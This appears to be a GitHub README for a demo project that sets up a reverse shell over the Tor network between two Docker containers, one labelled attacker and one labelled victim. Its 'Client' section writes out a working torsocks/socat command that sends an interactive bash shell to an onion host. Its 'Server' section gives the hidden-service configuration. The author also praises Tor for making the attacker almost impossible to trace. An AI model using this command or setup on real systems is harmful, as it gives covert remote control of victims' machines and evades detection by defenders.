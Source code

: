 <div align="center">
<img src="https://img.shields.io/badge/docker-%230db7ed.svg?style=for-the-badge&logo=docker&logoColor=white" alt="docker" />

<img src="https://img.shields.io/badge/tor-%237E4798.svg?style=for-the-badge&logo=tor-project&logoColor=white" alt="tor-web-server"/>

<img src="https://img.shields.io/badge/Ubuntu-E95420?style=for-the-badge&logo=ubuntu&logoColor=white" alt="ubuntu-linux"/>

<img src="" alt=""/>

</div>
<br/>
<br/>

## **💁 What is shell ?**

We can define a shell as a link between the system and the user. We can say that the shell has the purpose of interpreting commands, transmitting the results to the system and returning the results. Various types of shell interpreters on Unix/Linux systems, the most common being sh , bash , csh , Tcsh , ksh , and zsh.

## **🤔 What is reverse shell ?**

It is a technique used to send commands from a shell remotely through a port and thus allows the attacker to open a listening port on your server to receive connections from other machines, thus allowing control over them.

<p align="center">
<img src="./assets/rshell-example.png" alt="reverse-shell" />
</p>

With access to a compromised machine, the attacker will be able to escalate privileges to gain administrative access to the system.

## **💻 Project**

We created **_two containers_** in isolation that communicate with the **_Tor network_** forming a **_reverse shell_**. In this way, an attacker listens for connections from the Tor network while the victim's computer connects to the attacker.

<p align="center">
<img src="./assets/architecture.png" alt="architecture" width="700px"/>
</p>

To create the docker images we used [Ubuntu](https://ubuntu.com/) and installed [socat](https://linux.die.net/man/1/socat) and [tor](https://community.torproject.org/relay/setup/bridge/debian-ubuntu/) via apt-get as you can see in the dockerfiles.

## **🚀 Get Started**

First open a terminal instance and run the **_start_listen.sh_** script:

<p align="center">
<img src="./assets/listen-example.gif" alt="example-1"/>
</p>

Wait for Tor startup to reach 100%. Copy the script in yellow like the one generated in the image above. Now open another instance of the terminal and run the **_start_rshell.sh_** script. After initialization, paste the script that was copied in the terminal and hit the enter key:

<p align="center">
<img src="./assets/rshell-example.gif" alt="example-2"/>
</p>

You can see that the attacker gets access to the victim computer.

## **📞 Client**

In order for the client to be able to make calls to the attacker, the rshell container needs to be on the tor network and execute the following command:

```bash
# example attacker host
ATTACKER_HOST=lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
ATTACKER_PORT=80

torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$ATTACKER_HOST:$ATTACKER_PORT
```

The **_torsocks_** command guarantees the the victim's ability to making calls to hosts on the Tor network.

## **🌐 Server**

To create the server on the Tor network we must include the file **_torrc_** in the directory **_/etc/tor/_** this way we will get a host on the Tor network.

```bash
# torrc example
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:80
```

After starting the **_listen_** container you can see the host created by running the command:

```bash
docker exec -it listen cat /var/lib/tor/hidden_service/hostname

# out example
lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion
```

Every call the victim makes to host `lsgbhtjko6zcrgsyb2nzdx76rpyaycvivl5tnmwyq336hlbqxjremcid.onion` will be redirected to the **_socat_** server which is listening locally on port 80.

## **💥 Considerations**

There are many ways to create a reverse shell, as you can see [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). We use socat because it's easy to create a reverse shell with interactive PTY and autocomplete. I am not a hacker and I am far from it. But some lamers out there make gigantic python scripts with interactive interfaces and lots of base 64 to do that. For a good lamer a sh terminal with busybox is enough. The great advantage of using the Tor network to create a reverse shell is that it becomes almost impossible to identify the attacker otherwise the attacker's address would be easily discovered in an audit with programs like [wireshark](https://www.wireshark.org/). I could have used the **_alpine_** image instead of **_ubuntu_** to build the containers, but there was a problem in socat and I got lazy.

## **📚 References**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories)
- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Author**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 My contacts!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## **📝 License**

This project has an MIT [license](LICENSE.md).
